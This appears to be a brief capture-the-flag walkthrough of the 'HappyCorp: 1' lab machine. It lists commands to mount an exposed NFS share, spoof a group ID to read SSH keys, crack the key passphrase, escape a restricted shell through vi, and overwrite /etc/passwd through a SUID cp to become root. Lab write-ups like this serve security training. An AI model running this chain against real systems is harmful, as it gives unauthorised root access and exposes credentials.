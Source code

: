 
# HappyCorp: 1

- 1- Let's started with scanning the target machine that reveals an important port open:
2049 -> open -> NFS Share.
- 2- Enumerating the shared files : ```showmount -e 10.0.4.36 ```
- 3- Mounting the shared directory: ```mount -t nfs 10.0.4.36:/home/karl /tmp/share ```
- 4- Get in the karl directory 
- 5- Create a group identifiant 1001: ``` groupadd -g 1001 mygroup```
- 6- Affecte my user account to the group created: ``` useradd -G mygroup root``` => we can access to .ssh shared file
- 7- Upload his private ssh key -> use ssh2john to retrieve the passphrase.
8- Connect with private ssh to rbash shell
9- Abuse vi to get out from the restricted bash: ``` vi -> :!/bin/sh```
10- ``` find / -perm -u=s -type f 2>/dev/null```
11- /bin/cp: can be runned as root user.
12- ```wget http://10.0.4.36:8000/passwd  -> cp passwd /etc/passwd -> su tbag (root user)```
13- boooooooooooooooooooom

